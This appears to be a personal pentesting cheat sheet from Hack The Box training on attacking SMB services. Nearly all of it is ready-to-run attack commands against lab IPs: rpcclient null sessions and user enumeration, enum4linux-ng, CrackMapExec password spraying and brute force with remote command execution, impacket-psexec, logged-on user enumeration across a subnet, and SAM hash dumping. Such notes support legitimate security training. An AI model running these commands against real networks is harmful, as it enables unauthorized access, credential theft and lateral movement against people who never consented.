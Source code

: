 ```shell
Sauuron@htb[/htb]$ rpcclient -U'%' 10.10.110.17 # Null session

rpcclient $> enumdomusers # list User:[name] rid:[rid-number]
```

[enum4linux.py](https://github.com/cddmp/enum4linux-ng)

```shell
Sauuron@htb[/htb]$ ./enum4linux-ng.py 10.10.11.45 -A -C # Null authentication 
```

### <span style="color :red "> Crackmapexec BruteForce / Password spray </span>

```shell
Sauuron@htb[/htb]$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' # Spray `--continue-on-success`optional to continue even after valid creds
```

```shell
Sauuron@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec # BruteForce
```


### <span style="color :red "> Impacket</span>
Psexec 
- Deploy to $admin share using [RemComSvc](https://github.com/kavika13/RemCom)
```shell
Sauuron@htb[/htb]$ impacket-psexec administrator:'Password123!'@10.10.110.17
```

PSsmb
- Without the need to have a writable share 

atexec
- executes a command on the target machine through the Task Scheduler service and returns the output of the executed command

CrackMapExec
- includes an implementation of `smbexec` and `atexec`
 
Metasploit
- Ruby PsExec implementation.

### <span style="color:#9fef00"> Enumerating Logged-on Users</span>
------
- Logged in users
```shell
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

- Extract sam
```shell
Sauuron@htb[/htb]$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

